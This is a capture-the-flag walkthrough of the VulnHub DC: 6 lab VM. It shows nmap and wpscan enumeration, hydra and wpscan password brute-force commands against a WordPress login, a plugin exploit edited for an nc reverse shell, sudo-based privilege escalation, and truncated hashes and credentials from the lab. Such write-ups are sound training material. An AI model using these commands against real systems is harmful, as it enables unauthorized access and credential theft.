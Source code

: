 [VulnHub] DC: 6
===============
date: 10/Sep/2019
summary: This is the summary for an awesome post.
tags: vulnhub, writeups

## Overview
This is a writeup for VulnHub VM [DC: 6](https://www.vulnhub.com/entry/dc-6,315/). Here's an overview of the `enumeration` → `exploitation` → `privilege escalation` process:

![writeup.overview.killchain](/static/files/posts_vulnhub_dc6/killchain.png)

## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
```
# Nmap 7.70 scan initiated Tue Sep 10 18:09:50 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/vulnhub/dc6/results/wordy/scans/_quick_tcp_nmap.txt -oX /root/toolbox/vulnhub/dc6/results/wordy/scans/xml/_quick_tcp_nmap.xml wordy
Nmap scan report for wordy (192.168.92.170)
Host is up, received arp-response (0.00024s latency).
Scanned at 2019-09-10 18:09:51 PDT for 8s
Not shown: 998 closed ports
Reason: 998 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 3e:52:ce:ce:01:b6:94:eb:7b:03:7d:be:08:7f:5f:fd (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDDHiBBFUtpw1T9DZyoXpMp3kg25/RgmGZRFFmZuTfV9SJPxJCvrQXdM6P5GfFLFcgnLlcOBhBbv33N9HvWisycRypK0uLK26bntqfyTAFCdMXcud7fKNgRBxJdN8onwl4Hly3wzRBJxFWqTdD1RF8viYH4TYIs5+WLpN7KihosjpbwzPpOnbDQZUw7GdHvosV7dFI6IMcF57R4G5LzSgV66GACNGxRn72ypwfOMaVbsoxzCHQCJBvd8ULL0YeAFtNeHoyJ8tL3dZlu71Wt9ePYf7ZreO+en701iDqL6T/iyt3wwTDl7NwpZGj5+GrlyfRSFoNyHqdd0xjPmXyoHynp
|   256 3c:83:65:71:dd:73:d7:23:f8:83:0d:e3:46:bc:b5:6f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBE+jke+7np4l7EWf0wgySSp3MtYFcI6klVOWm7tDjas8eDxc9jYOhR4uK7koa2CkQPDd18XJSt0yNAGQFBb7wzI=
|   256 41:89:9e:85:ae:30:5b:e0:8f:a4:68:71:06:b4:15:ee (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAII1mnJveN8yJySEDhG8wjYqtSKmcYNdX5EVqzxYb92dP
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.25 ((Debian))
|_http-generator: WordPress 5.1.1
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Wordy &#8211; Just another WordPress site
MAC Address: 00:0C:29:F1:97:73 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Sep 10 18:09:59 2019 -- 1 IP address (1 host up) scanned in 8.96 seconds
```

2\. We start with `80/tcp` and are presented with a `Wordpress` installation. We run `wpscan` to enumerate users and find 5 hits:  
```
admin, graham, mark, sarah and jens
```

![writeup.enumeration.steps.2.1](/static/files/posts_vulnhub_dc6/screenshot01.png)  

### Findings
#### Open Ports:
```
22/tcp  |  ssh   |  OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
80/tcp  |  http  |  Apache httpd 2.4.25 ((Debian))
```
#### Users
```
ssh: graham, mark, sarah, jens
wordpress: admin, graham, mark, sarah, jens
```

## Phase #2: Exploitation
1\. The VulnHub page for this VM gave a clue to create a custom wordlist from `rockyou.txt` to save time on bruteforce. This was a good starting point:  
```
cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt
```

2\. We run a Wordpress password bruteforce scan and find a hit for user `mark`:  
```
wpscan --url http://wordy/ --wordlist ./passwords.txt → helpdesk01
```

![writeup.exploitation.steps.2.1](/static/files/posts_vulnhub_dc6/screenshot04.png)  

3\. Running a Wordpress password bruteforce scan using `hydra` gave similar results:  
```
hydra -l mark -P passwords.txt 192.168.92.170 http-post-form "/wp-login.php:log=mark&pwd=^PASS^:ERROR" → helpdesk01
```

![writeup.exploitation.steps.3.1](/static/files/posts_vulnhub_dc6/screenshot02.png)  

4\. We use these credentials and login as user `mark`:  

![writeup.exploitation.steps.4.1](/static/files/posts_vulnhub_dc6/screenshot03.png)  

5\. This installation has `Activity Monitor` plugin installed. There's an exploit for this plugin on ExploitDB:  

![writeup.exploitation.steps.5.1](/static/files/posts_vulnhub_dc6/screenshot16.png)  

6\. We update the exploit with right IPs and chnage the `nc` commandline. This file when opened shows a HTML button which when clicked will execute the command and return a reverse shell:  

![writeup.exploitation.steps.6.1](/static/files/posts_vulnhub_dc6/screenshot08.png)  

![writeup.exploitation.steps.6.2](/static/files/posts_vulnhub_dc6/screenshot09.png)  

![writeup.exploitation.steps.6.3](/static/files/posts_vulnhub_dc6/screenshot05.png)  

## Phase #2.5: Post Exploitation
```
www-data@dc-6> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@dc-6>  
www-data@dc-6> uname
Linux dc-6 4.9.0-8-amd64 #1 SMP Debian 4.9.144-3.1 (2019-02-19) x86_64 GNU/Linux
www-data@dc-6>  
www-data@dc-6> ifconfig
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
  link/ether 00:0c:29:f1:97:73 brd ff:ff:ff:ff:ff:ff
  inet 192.168.92.170/24 brd 192.168.92.255 scope global eth0
     valid_lft forever preferred_lft forever
  inet6 fe80::20c:29ff:fef1:9773/64 scope link
     valid_lft forever preferred_lft forever
www-data@dc-6>  
www-data@dc-6> users
graham
mark
sarah
jens
```

## Phase #3: Privilege Escalation
1\. Exploring the filesystem, we come across `/var/www/html/wp-config.php` file that has MySQL credentials in it:  
```
wpdbuser/meErKatZ
```

![writeup.privesc.steps.1.1](/static/files/posts_vulnhub_dc6/screenshot06.png)  

2\. We also extract hashes for all Wordpress users from `wp_users` table:  

![writeup.privesc.steps.2.1](/static/files/posts_vulnhub_dc6/screenshot07.png)  

3\. Exploring filesystem further, we find credentials for user `graham` within the `/home/mark/stuff/things-to-do.txt` file:  
```
graham/GSo7isUM1D4
```

![writeup.privesc.steps.3.1](/static/files/posts_vulnhub_dc6/screenshot11.png)  

4\. We `ssh` into the system as user `graham` to gain interactive access:  

![writeup.privesc.steps.4.1](/static/files/posts_vulnhub_dc6/screenshot12.png)  

5\. User `graham` can edit and execute the `/home/jens/backups.sh` as user `jens`. We modify the script to execute a shell and gain interactive access as user `jens`:  

![writeup.privesc.steps.5.1](/static/files/posts_vulnhub_dc6/screenshot13.png)  

6\. User `jens` can execute `/usr/bin/nmap` as `root`. We use this to gain elevated privileges and read the flag:  

![writeup.privesc.steps.6.1](/static/files/posts_vulnhub_dc6/screenshot14.png)  

![writeup.privesc.steps.6.2](/static/files/posts_vulnhub_dc6/screenshot15.png)  

## Loot
### Hashes
```
root:$6$kdMFceEg$pk9h93tdD7IomhE7L0Y396HO6fxSM.XDh9dgeBhKpdZlM/WYxCZe7yPRNHfZ5FvNRuILVp2NOsqNmgjoS........................
graham:$6$WF7GkVxM$MOL.cXLpG6UTO0M4exCUFwOEiUhW6bwQa.Frg9CerQbTp.EW4QTzEAuio26Aylv.YP0JPAan10tsUFv6k........................
mark:$6$//1vISW6$9pl2v8Jg0mNE7E2mgTQlTwZ1zcaepnDyYE4lIPJDdX7ipnxm/muPD7DraEm3z0jqDe5iH/Em2i6YXJpQD........................
sarah:$6$DoSO7Ycr$2GtM5.8Lfx9Sw8X1fDMF.7zWDoVoy1892nyp0iFsqh5CfmtEROtxmejvQxu0N/8D7X8PQAGKYGl.gUb6/........................
jens:$6$JWiFWXb8$cGQi07IUqln/uLLVmmrU9VLg7apOH9IlxoyndELCGjLenxfAaVec5Gjaw2DA0QHRwS9hTB5cI2sg/Wk1O........................
```
### Credentials
```
mysql: wpdbuser/meEr....
ssh: graham/GSo7isU....
wordpress: mark/helpdes...
```

## References
* <https://www.vulnhub.com/entry/dc-6,315/>  
* <https://diaryof0x41.wordpress.com/2019/05/29/vulnhub-dc-6-walkthrough/>  

